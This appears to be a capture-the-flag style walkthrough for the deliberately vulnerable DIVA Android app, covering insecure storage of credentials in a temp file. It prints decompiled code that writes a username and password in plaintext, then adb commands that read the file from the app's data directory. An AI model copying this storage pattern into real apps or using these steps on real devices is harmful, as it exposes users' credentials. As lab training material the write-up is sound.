 ## Insecure Data Storage Part 4


#### The vulnerability

This time, it is stored in a temp file

        view = (EditText)this.findViewById(2131493006);
        EditText editText = (EditText)this.findViewById(2131493007);
        Object object = new File(this.getApplicationInfo().dataDir);
        try {
            Comparable<File> comparable = File.createTempFile("uinfo", "tmp", (File)object);
            ((File)comparable).setReadable(true);
            ((File)comparable).setWritable(true);
            object = new FileWriter((File)comparable);
            comparable = new Comparable<File>();
            ((Writer)object).write(((StringBuilder)comparable).append(view.getText().toString()).append(":").append(editText.getText().toString()).append("\n").toString());
            ((OutputStreamWriter)object).close();
            Toast.makeText((Context)this, (CharSequence)"3rd party credentials saved successfully!", (int)0).show();
            return;
        }
        catch (Exception exception) {
            Toast.makeText((Context)this, (CharSequence)"File error occurred", (int)0).show();
            Log.d((String)"Diva", (String)("File error: " + exception.getMessage()));
            return;

#### How to exploit

        adb root 
        cd /data/data/jakhar.aseem.diva
        ls -al

u will see this

        drwxr-x--x  5 u0_a67 u0_a67       4096 2019-10-11 06:24 .
        drwxrwx--x 91 system system       4096 2019-10-11 06:20 ..
        drwxrws--x  2 u0_a67 u0_a67_cache 4096 2019-10-11 06:20 cache
        drwxrws--x  2 u0_a67 u0_a67_cache 4096 2019-10-11 06:20 code_cache
        drwxrwx--x  2 u0_a67 u0_a67       4096 2019-10-11 06:20 databases
        -rw-------  1 u0_a67 u0_a67         35 2019-10-11 06:24 uinfo1241259384763728833tmp

cat the uinfo file

![lewis](https://github.com/Blahblahlolhahaha/Diva-walkthrough/blob/master/Insecure%20Data%20Storage/Part%203/Screenshot_1570775485.png)
        
        generic_x86_64:/data/data/jakhar.aseem.diva # cat  uinfo1241259384763728833tmp
        Lewis Hamilton:GetinthereLewis!!!!
        
### **BINGO!!!**





